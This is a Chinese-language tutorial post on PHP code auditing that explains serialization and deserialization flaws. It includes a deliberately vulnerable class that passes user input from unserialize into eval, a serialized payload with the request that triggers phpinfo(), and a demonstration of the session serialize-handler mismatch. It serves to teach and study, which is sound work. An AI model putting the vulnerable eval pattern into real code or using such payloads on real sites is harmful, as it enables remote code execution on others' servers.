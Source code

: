 ```yaml
---
title: "[代码审计]PHP篇:反序列化漏洞"
desc: TonyD0g
date: 2022-01-29 20:26:57
tags: 代码审计
toc: true
---
```

<font size=4 >

<!-- more -->

## 0.前言
**何为反序列化，那序列化呢:**
序列化和反序列化是相对的，你可以就将其理解为数据的的编码和解码过程。一种语言系统下的数据结构只有在当前这个系统下才能够识别运行；当数据需要跨语言跨系统传输时，必须将其转成一种中间结构，这个中间结构能被双方识别、还原，这个过程就是序列化和反序列化。 

简单的说，序列化就是把一个对象变成可以传输的字符串，可以以特定的格式在进程之间跨平台安全的进行通信

## 1.简单案例:
serialize() 序列化：使用函数serialize()可将实例序列化为字符串 unserialize() 反序列化：使用函数unserialize()可将序列化的字符串还原.

示例代码:
```
<?php
class Example {
  var $var = '';
  function __destruct() {
      eval($this->var);
  }
}
unserialize($_GET['code']);
?>
```

漏洞利用:
构造漏洞利用的代码，保存为test.php，
```
<?php
class Example {
  var $var = 'phpinfo();';
  function __destruct() {
      eval($this->var);
  }
}
$a=new Example();
echo serialize($a);
?>
```
运行代码,输出结果:
O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}

**提交?code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";} 即可执行phpinfo()**
成功Hacking

## 2.PHP SESSION反序列化:
主要原因是： 
ini_set(‘session.serialize_handler’, ‘**php_serialize**’);
ini_set(‘session.serialize_handler’, ‘**php**’);
**两者处理session的方式不同**

示例代码:
```
<?php

//ini_set('session.serialize_handler','php');
ini_set('session.serialize_handler','php_serialize');

session_start();
$_SESSION["test"]=$_GET["a"];
?>//提交?a=1111
```

输出结果:
```
php_serialize： a:1:{s:4:"test";s:4:"1111";}
php:            test|s:4:"1111";

```
## 3.CTF比赛中的形式:
```
文档：6.反序列化.note
链接：http://note.youdao.com/noteshare?id=87a37fce0a327efbc6472ddfe6acd7de&sub=ABC648E3631D4FB29EFA99E4E995ACA6
```

## 学习来源:
```
公众号Bypass 《PHP代码审计入门笔记》
```
</font>
